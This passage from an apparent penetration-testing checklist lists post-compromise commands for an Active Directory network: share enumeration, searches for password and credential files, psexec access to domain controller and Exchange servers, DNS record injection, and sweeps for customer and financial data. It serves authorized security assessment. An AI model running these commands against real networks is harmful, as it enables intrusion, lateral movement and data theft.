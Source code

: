 #### [ ] **Sensitive Data Discovery**
```bash
# Enumerate all shares
crackmapexec smb target_range -u admin -p pass --shares

# Search for sensitive files
find /mnt/shares -name "*password*" -o -name "*credential*" -o -name "*confidential*"

# Database enumeration
sqlcmd -S sql.target.local -E -Q "SELECT name FROM sys.databases"
```

#### [ ] **Critical System Access**
```bash
# Domain Controller access
psexec.py domain/admin@dc.target.local "whoami /all"

# Exchange Server access
psexec.py domain/admin@exchange.target.local "Get-Mailbox | Select-Object Name,Database"

# File Server access
psexec.py domain/admin@fileserver.target.local "dir C:\Shares"
```

#### [ ] **Network Infrastructure Control**
```bash
# DNS manipulation capability
dnstool.py -u domain\\admin -p password dc.target.local -r attacker.target.local -d 192.168.1.100

# DHCP server access (if applicable)
netsh dhcp server \\dc.target.local show scope
```

## 🎯 Value-Added Activities

### 1. **Security Posture Assessment**
- **Patch Level Analysis**: Identify unpatched systems and vulnerabilities
- **Configuration Review**: Document insecure configurations
- **Policy Gaps**: Identify missing security policies and controls
- **Monitoring Blind Spots**: Show areas where attacks went undetected

### 2. **Attack Chain Validation**
- **Alternative Entry Points**: Test different initial access methods
- **Privilege Escalation Paths**: Validate multiple escalation routes
- **Lateral Movement Techniques**: Demonstrate various movement methods
- **Persistence Mechanisms**: Show multiple ways to maintain access

### 3. **Business Risk Quantification**
```bash
# Document accessible financial data
find /mnt/shares -name "*financial*" -o -name "*budget*" -o -name "*revenue*"

# Identify customer data exposure
grep -r -i "customer\|client\|personal" /mnt/shares/ | head -50

# Assess intellectual property access
find /mnt/shares -name "*proprietary*" -o -name "*confidential*" -o -name "*trade*"
```
